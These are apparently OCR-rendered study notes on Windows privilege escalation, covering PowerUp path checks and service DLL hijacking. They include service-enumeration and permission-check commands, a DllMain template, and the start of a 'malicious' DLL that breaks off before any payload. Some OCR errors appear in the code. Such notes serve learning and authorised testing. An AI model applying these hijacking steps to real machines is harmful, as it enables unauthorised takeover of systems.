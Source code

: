 	- ```$ModifiableFiles```
	- ```$ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal ```
		- add path argument
	- ```$ModifiableFiles```
### Service DLL Hijacking
- Dynamic Link Libraries (DLL) = Shared Object (linux)
- DLL search order
	- Microsoft determines what to inspect first when searcing for DLLs
		1. The directory from which the application loaded.
		2. The system directory.
		3. The 16-bit system directory.
		4. The Windows directory. 
		5. The current directory.
		6. The directories that are listed in the PATH environment variable.
			- ```$env:path```
		- When "safe" DLL search mode is dabled:
			- current directory -> 2
- Placing a malicious DLL (with name "missing DLL") in a path of the DLL search order so it executes
	- Example:
		- Enumerate Services
			- ```Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}```
		- check permissions
			- ```icacls .\Documents\BetaServ.exe```
		- *Process Montior*
			- (needs admin priv)
			- ```C:\tools\Procmon\****C:\tools\Procmon\Procmon54.exe```
		- Restart service
			- ```Restart-Service BetaService```
		- - DLL
			- DllMain = entry point function
					- executed when attached
				- _DLL_PROCESS_ATTACH_
				- _DLL_THREAD_ATTACH_
				- _DLL_THREAD_DETACH_
				- _DLL_PROCESS_DETACH_
		- DLL code template
			- ```OOL APIENTRY DllMain(HANDLE hModule,// Handle to DLL module DWORD ul_reason_for_call,// Reason for calling function LPVOID lpReserved ) // Reserved
				{
				    switch ( ul_reason_for_call )
				    {
				        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
				        break;
				        case DLL_THREAD_ATTACH: // A process is creating a new thread.
				        break;
				        case DLL_THREAD_DETACH: // A thread exits normally.
				        break;
				        case DLL_PROCESS_DETACH: // A process unloads the DLL.
				        break;
				    }
				    return TRUE;
				}```
		- Added malicious code
			- ```#include <stdlib.h>
				#include <windows.h>
				BOOL APIENTRY DllMain(
				HANDLE hModule,// Handle to DLL module
				DWORD ul_reason_for_call,// Reason for calling function
				LPVOID lpReserved ) // Reserved
				{